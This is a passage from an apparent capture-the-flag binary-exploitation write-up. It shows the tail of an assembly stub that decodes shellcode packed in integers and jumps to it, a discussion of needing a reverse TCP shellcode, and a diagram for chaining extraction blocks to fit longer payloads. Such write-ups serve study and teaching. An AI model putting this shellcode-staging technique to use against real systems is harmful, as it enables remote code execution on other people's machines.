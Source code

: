 ```assembly
    inc     edx                     ;
    inc     edx                     ;

    loop    EXTRACT_NEXT            ; repeat until ecx = 0

    nop                             ; we love nops!
    nop                             ;
    jmp    eax                      ; jump to the shellcode
```

It's possible to find such integers to execute the above code. Furtunately for us, when we use 3 byte
instructions, the MSB (which have limited control) is a number between 0x40 and 0x48, which are valid
1 byte instructions. So if we have the sequence 0x48 - 0x40 (or the opposite) we can have a nop
equivalent (dec eax; in eax).

Everything seems wonderful so far, and we can execute an arbitrary shellcode. I tried the classic 23
byte /bin/sh shellcode but it didn't work :\ This was expected as there's not setbuf() in the binary
file. This means that we need a reverse TCP shellcode. However the smallest one I found was 72 bytes!

That's too bad as we can have up to 62 bytes of shellcode. However this idea can be extended:
```
            prolog
    /----   jmp
    |
    |   tuples:
    |       0x????AABB
    |       0x????CCDD
    |       ...
    |       0x????YYZZ
    |
    |               /-----------------------\
    |               |                       |
    |               \/                      |
    \--->   extract AABB CCDD ... YYZZ      |
                                    |       |
            adjust_pointers         |       |
    /----   jmp                     |       |
    |                               |       |
    |   more_tuples:                |       |
    |       0x????EEFF              |       |
    |       0x????GGHH              |       |
    |       ...                     |       |
    |       0x????WWXX              |       |
    |                               |       |
    |               /---------------/       |
    |               |                       |
    |               \/                      |
    \--->   extract EEFF GGHH ... WWXX      |
                                            |
            jmp ----------------------------/
```
